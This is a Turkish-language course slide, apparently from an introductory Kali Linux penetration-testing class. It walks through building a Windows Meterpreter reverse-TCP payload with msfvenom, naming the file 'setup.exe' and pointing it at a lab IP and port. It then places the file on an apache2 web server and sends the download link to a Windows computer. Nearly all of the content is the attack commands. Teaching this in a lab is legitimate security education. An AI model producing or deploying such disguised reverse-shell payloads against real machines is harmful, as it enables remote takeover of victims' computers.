

# Zararlı Kod(payload) Oluşturma
Zararlı kod oluşturabilmek için msfvenom aracını kullanacağımızdan önceki slaytta bahsettim.
msfvenom -p windows/x64/meterpreter_reverse_tcp -f exe -o setup.exe LHOST=10.0.2.17 LPORT=4545
LHOST olarak kendi kali Linux makinenizin ip adresini yazmanız gerekiyor. Port olarak 0-65536 arasında herhangi bir kullanılmayan portu yazabilirsiniz.(1000’in altında bir port yazarsanız dinlemek için root yetkisi isteyecektir.)
Oluşturduğumuz zararlı kodu geçen hafta öğrendiğimiz apache2 sunucumuza yerleştirelim ve linkini Windows bilgisayara gönderelim.
sudo mv setup.exe /var/www/html
cd /var/www/html
sudo mkdir setup
sudo mv setup.exe setup
sudo service apache2 start
http://10.0.2.17/setup linkine gittiğimizde zararlı kodumuzu görebiliriz.